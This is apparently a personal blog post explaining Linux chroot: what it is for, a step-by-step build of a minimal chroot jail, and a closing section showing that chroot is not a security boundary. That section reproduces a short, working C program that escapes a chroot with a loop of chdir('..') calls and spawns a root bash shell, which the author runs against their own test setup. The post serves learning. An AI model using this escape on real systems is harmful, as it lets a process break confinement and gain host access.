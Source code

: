 ```yaml
---
layout: post
title: Looking into CHROOT
categories: [Linux]
---
```



## **What is Chroot?**

According to linux documentation...

> chroot - run command or interactive shell with special root directory

 Chroot is used in lots of different situation. As creating isolated testing environment for developers, running deprecated software that require older libraries, recovery filesystem...

  I remembered i use it when installing arch linux few years back, it also save me when my GRUB bootloader get broken on my old ubuntu PC. 

## **Practice**

 Okay enough chit-chat, let's roll out sleeves and deep dive into chroot. I will create simple sandbox bash environment with few commands as `touch`, `rm`, `ls` and `id`.  You need any linux distribution where you have admin/sudo rights. I used Ubuntu desktop for this example.

I created folder chroot-jail inside my home directory

```bash 
mkdir chroot-jail
```

I need to create folders bin,lib,lib64 and urs inside my newly created folder. 

```
mkdir -p chroot-jail/{bin,lib,lib64,usr/bin}
```
{} help me create multiple folders in my chroot-jail folder 
-p help me create folder bin inside urs inside chroot-jail :) it help create nested folders

![](/images/chroot/01-folders.png)

Now I need to copy all binaries I want to use. As I mentioned before I will copy `bash`,`touch`,`ls` and `rm` into my chroot-jail/bin folder and `id` into chroot-jail/usr/bin

![](/images/chroot/02-copy.png)

It's not that easy just copy binaries over. Every binary has some library dependencies. I need to copy that library into correct lib folder. To check dependencies I used `ldd` command.

![](/images/chroot/03-ldd.png)

I can see `bash` binary depends on few libraries. 3 of them I copied to lib folder and last one to lib64 folder. I will do exact same thing for `touch`,`ls`,`rm` and `id` binaries. If no missing library is there we can run command 

```bash 
sudo chroot chroot-jail /bin/bash
```

![](/images/chroot/04-jail.png)

I am in new shell. I can test all binaries I copied before. I can see all of them are working as expected. If I want to run binaries that are not inside my chroot-jail folder I will get error message.

![](/images/chroot/05-error.png)

## **Jail-break**

Chroot is not security feature. As you can see from man pages

> In particular, it is not intended
       to be used for any kind of security purpose, neither to fully
       sandbox a process nor to restrict filesystem system calls. 

If I looked into [Hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/escaping-from-limited-bash) and there was really nice C script for escaping. It looks like this...

```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>
//gcc break_chroot.c -o break_chroot
int main(void)
{
    mkdir("chroot-dir", 0755);
    chroot("chroot-dir");
    for(int i = 0; i < 1000; i++) {
        chdir("..");
    }
    chroot(".");
    system("/bin/bash");
}
```

I can compile this script with this command

```bash 
gcc script.c -o spyx
```

and copy it into my chroot-jail folder and test it. 

![](/images/chroot/06-break.png)

I became root on my own hosts! As we can see I became immediate root because I run chroot with sudo privileges.

Thanks for reading....